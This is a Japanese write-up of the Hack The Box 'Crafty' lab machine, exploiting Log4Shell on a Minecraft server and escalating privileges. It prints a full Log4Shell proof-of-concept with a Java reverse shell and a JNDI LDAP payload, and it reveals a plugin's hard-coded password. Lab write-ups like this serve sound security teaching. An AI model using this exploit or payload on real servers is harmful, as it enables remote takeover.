

# 概要

| IP  | 10.10.11.249 |
| --- | ------------ |


Crafty は、`Minecraft` サーバーを悪用した、難易度の低い Windows マシン。サーバーのバージョンを列挙すると、`Log4j Injection` を悪用した認証前のリモート コード実行 (RCE) に対して脆弱であることがわかる。ターゲットでリバース シェルを取得した後、ファイル システムを列挙すると、管理者が Java ベースの `Minecraft` プラグインを作成したことがわかり、これをリバース エンジニアリングすると、資格情報が明らかとなる。これらの資格情報は、`RunasCs` ユーティリティで活用され、管理者アクセスを取得し、システムを侵害する
# Enumeration
## nmap

```
# Nmap 7.94SVN scan initiated Fri Jun 14 07:24:29 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/ctf/HTB/machines/Linux/Easy/Crafty/results/10.10.11.249/scans/_full_tcp_nmap.txt -oX /home/hatto/ctf/HTB/machines/Linux/Easy/Crafty/results/10.10.11.249/scans/xml/_full_tcp_nmap.xml 10.10.11.249
Nmap scan report for 10.10.11.249
Host is up, received user-set (0.17s latency).
Scanned at 2024-06-14 07:24:29 JST for 186s
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   REASON          VERSION
80/tcp    open  http      syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
25565/tcp open  minecraft syn-ack ttl 127 Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/14%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=666B7258%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10B%TI=I%II=I%TS=U)
SEQ(SP=101%GCD=1%ISR=10B%TI=I%II=I%SS=S%TS=U)
OPS(O1=M53ANW8NNS%O2=M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53ANW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   232.58 ms 10.10.16.1
2   89.99 ms  10.10.11.249

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 14 07:27:36 2024 -- 1 IP address (1 host up) scanned in 186.88 seconds
```

Webサーバーが起動していることがわかったのでアクセスしてみる<br>初期アクセスからドメイン`crafty.htb`,`play.crafty.htb`が存在することが分かった。<br>/etc/hostsにドメインを追加<br>

マインクラフトらしきWebサイトだった


play.crafty.htbにアクセスしてみたが特に別のサイトに遷移することはなかった
ホームページ内のリンクに飛ぶとすべてCOMING SOONとまだ開発中なのかアクセスできない


ディレクトリとサブドメインの探索を行ったが何も怪しいものは見つからなかった

## minecraft

port 25565が開いているのでなんのポートなのか調べてみる


どうやらこのポート番号はminecraftのサーバーに使用されるデフォルトのポート番号らしい
このポートは一般に Minecraft サーバーに関連付けられており、Minecraft クライアントとサーバー間の通信に使用され、プレイヤーが Minecraft サーバーに接続すると、ゲーム クライアントはこのポートを介してサーバーと通信し、プレイヤーの動き、アクション、ワールドの更新などのゲーム データを送受信する。

ポートスキャンの情報から使用しているマインクラフトのバージョンが`Minecraft 1.16.5`であることが分かっているのでこの情報をもとに脆弱性があるかどうか調べてみる。

手に入れた情報をもといくつか調べていると以下の記事を発見した

Exploiting Minecraft Server (Log4j)<br>[Exploiting Minecraft Servers (Log4j) | by Software Sinner | Medium](https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847)

記事によると、log4jというマイクラサーバーを含む Java アプリケーションで広く使用されているログ ライブラリで2021 年 12 月、Log4j で「Log4Shell」または[_CVE-2021–44228_](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)と呼ばれる攻撃者がリモートで任意のコードを実行できるらしい

この脆弱性を悪用すればいけそう
# Exploit

まず必要になるTLauncherをダウロードする<br>[https://tlauncher.org](https://tlauncher.org/en/)/

TLauncherでなくても以下のマイクラクライアントでもできる<br>[MCCTeam/Minecraft-Console-Client: Lightweight console for Minecraft chat and automated scripts (github.com)](https://github.com/MCCTeam/Minecraft-Console-Client)

今回はTLauncherを使用する

パッケージをダウンロードし、解凍して起動させる
```
sudo unzip TLauncher-v10.zip
sudo java -jar TLauncher.jar
```

起動すると任意の名前とターゲットマシンのバージョンと同じバージョンを選択してInstall


インストールが完了すると


見たことある画面が起動した

Multiplayerからサーバーを追加してログインする


ワールドに入れた

これでゲームセッションに接続できたのでCtrl＋Tを押すことでチャットウインドウを開いて悪意のあるペイロードを入力できる準備が整った

つづいてlog4jを悪用するPoCを見つけたのでこれを使用する<br>[kozmer/log4j-shell-poc: A Proof-Of-Concept for the CVE-2021-44228 vulnerability. (github.com)](https://github.com/kozmer/log4j-shell-poc)

リポジトリをクローンしてpoc.pyを見てみる

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```

今回のターゲットマシンのOSはWindowsであることが分かっているため
`String cmd="/bin/sh";`を/bin/bashではなく、cmd.exeに変更する。

pocの実行に必要となるJDKをダウンロードする

```
sudo wget -c — no-cookies — no-check-certificate — header “Cookie: oraclelicense=accept-securebackup-cookie” https://download.oracle.com/otn/java/jdk/8u20-b26/jdk-8u20-linux-x64.tar.gz
```
場合によってはJDKのインストールにはOracleのアカウント登録が必要になる

ダウンロードしたファイルを同じフォルダ内に解凍しておく

これで必要となるツールの準備がそろった

実際にエクスプロイトを行うには別のターミナルウィンドウでnetcatリスナーとpocを実行してpocによって生成されたリバースシェルペイロードをマイクラ内のチャット欄に張り付ける必要がある。


生成されたペイロード`${jndi:ldap://10.10.16.28:1389/a}`をマイクラのチャット欄に張り付けると


シェルの取得に成功した


userフラグをゲット

# Sliver

シェルを奪うことができたが不安定なシェルで使いにくいためsliverを使用して安定したシェルにする

起動する


インプラントの生成


pythonでサーバーをたてダウンロードする


インプラントのダウンロードが完了したのでリスナーを起動


実行する


セッションが確立されたことがわかる


以下のようにしてセッションに入る


これで色々融通が聞くようになった

# Privesc

サーバーのプラグインを調べると`playercounter-1.0-SNAPSHOT.jar`というファイルを見つけた


調べてもこの名前に似たようなファイルの情報は出てこなかったのでダウンロードして`jd-gui`を使用してリバースエンジニアリングを行う。


`Playercounter.class`に`s67u84zKq8IXw`というパスワードを見つけた

いつもならevil-winrmでいいのだが今回はポートが開いていないため使うことができない
代わりに`RunasCs`を使用する

用意したRunasCsをターゲットマシンにアップロードする<br>

metasploitを使用するのでmsfvenomでペイロードを作成しアップロードする


metasploitを起動しいつも通りの設定を行いリスナーを起動する



ターゲットマシンで以下のとおりに実行する


リスナーを見てみると...


シェルが起動した


しっかりadministratorにもなれていた


root.txtを獲得

攻略完了